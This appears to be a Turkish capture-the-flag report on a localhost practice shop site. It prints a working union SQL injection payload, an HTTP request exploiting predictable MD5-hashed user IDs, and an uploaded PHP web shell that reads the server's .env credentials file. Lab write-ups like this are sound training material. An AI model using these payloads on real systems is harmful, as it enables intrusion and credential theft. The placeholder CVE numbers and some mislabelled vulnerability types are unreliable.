 # CTF1 - Rapor

### CVE-2025-XXF1 – Union-Based SQL Injection Zafiyeti

| **Bilgi**                | **Detay**                         |
|--------------------------|-----------------------------------|
| **Zafiyet Adı**          | Union-Based SQL Injection         |
| **CVE Numarası**         | CVE-2025-XXF1                     |
| **Yayın Tarihi**         | 22.03.2025                        |
| **Etkilenen Sistem**     | Ticaret Sitesi Veritabanı         |
| **Zafiyet Seviyesi**     | Kritik (CVSS: 9.8)                |
| **Raporlayan**           | Ak Takkeli Burak                  |

##### Açıklama:
CVE-2025-XXF1, asd' UNION SELECT ... şeklinde gerçekleştirilebilen bir Union-based SQL Injection zafiyetidir. Bu zafiyet, kullanıcı girişlerinin uygun şekilde filtrelenmesi nedeniyle, saldırganın veritabanında bulunan tabloları sızdırmasına olanak tanımaktadır.
Saldırgan, aşağıdaki gibi bir payload ile veritabanındaki tablo adlarına erişim sağlayabilmektedir ⇒ 
asd' UNION SELECT 'i', table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema=database()-- ASD

##### Kanıt ⇒ 
Bu zafiyetin başarılı bir şekilde sömürülmesi sonucu YZT_FLAG1{b2e605ed389aef58002aa7132ad26d98} gibi hassas verilere erişim sağlanabilmiştir.

-------------------------------------

### CVE-2025-XXF2 – MD5 Hash ile Yetkisiz Erişim (SQL Injection)
| **Bilgi**                | **Detay**                         |
|--------------------------|-----------------------------------|
| **Zafiyet Adı**          | SQL Injection ve MD5 Hash         |
| **CVE Numarası**         | CVE-2025-XXF2                     |
| **Yayın Tarihi**         | 22.03.2025                        |
| **Etkilenen Sistem**     | Ticaret Sitesi Veritabanı         |
| **Zafiyet Seviyesi**     | Kritik (CVSS: 9.8)                |
| **Raporlayan**           | Ak Takkeli Burak                  |

##### Açıklama:
Uygulamada user_id parametresi MD5 hashlenmiş kullanıcı ID si üzerinden kontrol edilmekte.
MD5 gibi zayıf bir algoritmanın kullanılması ve herhangi bir ek doğrulama yapılmaması, saldırganların belirli ID’lere karşılık gelen sabit MD5 hashlerini deneyerek yetkisiz erişim sağlamalarına olanak tanımaktadır.

    1 → c4ca4238a0b923820dcc509a6f75849b
    4 → a87ff679a2f3e71d9181a67b7542122c 

##### Aşağıdaki istek ile 1 numaralı kullanıcının bilgilerine erişim sağlanabilmektedir:

```http 
GET /admin/user_info.php?user_id=c4ca4238a0b923820dcc509a6f75849b HTTP/1.1 
```

##### Kanıt:
Bu Zafiyet Sayesinde MD5 şifrelemesi ile 1 numaralı admin kullanıcısına ulaşılması sonucu
YZT_FLAG2{998be3c05163e29054a6a0a82afd6435} gibi hassas verilerin erişim sağlanabilmiştir.


-------------------------------------

### CVE-2025-XXF3 – Local File Inclusion (LFI) ile .env Dosyasına Yetkisiz Erişim

- Yayın Tarihi: 22.03.2025
- Başlık: PHP shell_exec() Fonksiyonu ile Local File Inclusion (LFI) Zafiyeti
- Etkilenen Uygulama: Ticaret Sitesi Veritabanı
- URL: http://localhost:8081/admin/uploads/patatest.php
- Zafiyet Türü: SQL İnjection
- Raporlayan: Ak Takkeli Burak
- Açıklama:
Bu güvenlik açığı, PHP'nin shell_exec() fonksiyonunun kötüye kullanılması nedeniyle Local File Inclusion (LFI) zafiyeti yaratmaktadır. Uygulamada cat ../../.env komutu çalıştırılarak hassas bilgilerin açığa çıkmasına sebep olmaktadır.
Bu durum, saldırganların sunucudaki .env dosyasını okuyarak veritabanı bağlantı bilgileri, API anahtarları, gizli kimlik bilgileri gibi kritik verilere erişmesine neden olabilir.

```markdown
<?php
$output = shell_exec('cat ../../.env');
echo "<pre>$output</pre>";
?>
```

```http
GET /admin/uploads/patatest.php HTTP/1.1
Host: localhost:8081
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: tr-TR,tr;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3dc3ed0ed831f473ad06fb91b7b19e51
Connection: keep-alive
```

- Kanıt ⇒ 
Bu zafiyetin başarılı bir şekilde sömürülmesi sonucu 
YZT_FLAG3{0d466c517e6437c8f6195e90fb3b7c2d} gibi hassas verilere erişim sağlanabilmiştir.
